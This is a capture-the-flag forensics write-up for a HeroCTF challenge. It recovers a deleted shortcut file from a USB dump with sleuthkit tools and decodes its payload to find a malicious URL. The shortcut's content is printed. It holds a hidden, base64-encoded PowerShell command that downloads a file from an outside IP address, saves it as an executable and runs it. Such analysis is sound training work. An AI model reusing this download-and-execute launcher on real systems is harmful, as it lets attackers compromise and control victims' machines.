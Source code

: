 # Where all problems start 1
#### forensics - [HeroCTF](../main.md)

## Challenge description:
> For a change of pace, a company has been attacked again... Nevertheless, the means used here is quite original, indeed, it would be apparently a food delivery man who would be at the origin of the initial compromise... For your first analysis, you will have to found what the USB key that the delivery man put in the computer contains.
>
> Could you provide us the malicious URL used to download something ?
>
> Download file: [dump.7z](../assets/dump.7z)

## Solution 
After we unzip the file, we can see what it is with the `file` command.
```
$ file usb.dump
usb.dump: DOS/MBR boot sector, code offset 0x58+2, OEM-ID "mkfs.fat", sectors/cluster 8, Media descriptor 0xf8, sectors/track 62, heads 124, hidden sectors 32, sectors 7831282 (volumes > 32 MB), FAT (32 bit), sectors/FAT 7640, reserved 0x1, serial number 0x9c286c52, unlabeled
```
We can use the `fls` command (part of [sleuthkit](https://www.sleuthkit.org/)) to see the files inside. This is useful as it also shows deleted files, denoted by an `*`.
```
$ fls usb.dump
r/r * 5:        Important_Document.lnk
r/r 7:  README.txt
v/v 125055523:  $MBR
v/v 125055524:  $FAT1
v/v 125055525:  $FAT2
V/V 125055526:  $OrphanFiles
```
The `Important_Document.lnk` file seems interesting, and we can use the `icat` command to extract it from the dump.
```
$ icat usb.dump 5 > Important_Document.lnk
$ cat Important_Document.lnk
v1.0l2�FS�k powershell.exeNerShe�FS�k�T8�.N�xz?powershell.exeh-g�v��C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe<..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe�-Nop -sta -noni -w hidden -encodedCommand YwBkACAAQwA6AFwAVQBzAGUAcgBzAFwAVwBvAHIAdAB5AFwAQQBwAHAARABhAHQAYQBcAEwAbwBjAGEAbABcAFQAZQBtAHAAXAAgADsAIABJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcgBpACAAIgBoAHQAdABwADoALwAvADEANAA2AC4ANQA5AC4AMQA1ADYALgA4ADIALwBpAG0AZwAuAHAAbgBnACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiAGkAZQB4AHAAbABvAHIAZQByADYANAAuAGUAeABlACIAIAA7ACAALgBcAGkAZQB4AHAAbABvAHIAZQByADYANAAuAGUAeABlAA==0C:\Programmes\Windows NT\Accessories\wordpad.exe�%SystemDrive%\Programmes\Windows NT\Accessories\wordpad.exe%SystemDrive%\Programmes\Windows NT\Accessories\wordpad.exe�%�
                                                              �wN���]N�D.��Q���`�Xdesktop-ji20hrm0gF&_zE���]���R�e����^
                                                                                                                       )M&�0gF&_zE���]���R�e����^
                                                                                                                                                 )M&��	��1SPS�XF�L8C���&�m�q/S-1-5-21-1162904530-3654154924-4196022673-100091SPS�mD��pH�H@.�=x�hH�<���A��7v��)
```
While it isn't completely in plaintext, there is an encoded command in PowerShell. We can use [Cyberchef](https://gchq.github.io/CyberChef/) to decode it.

![Screenshot of Cyberchef](../assets/ksnip_20220529-172825.png)

The requested URL is our flag :)
<details> 
    <summary>Flag</summary>
Hero{http://146.59.156.82/img.png}
</details>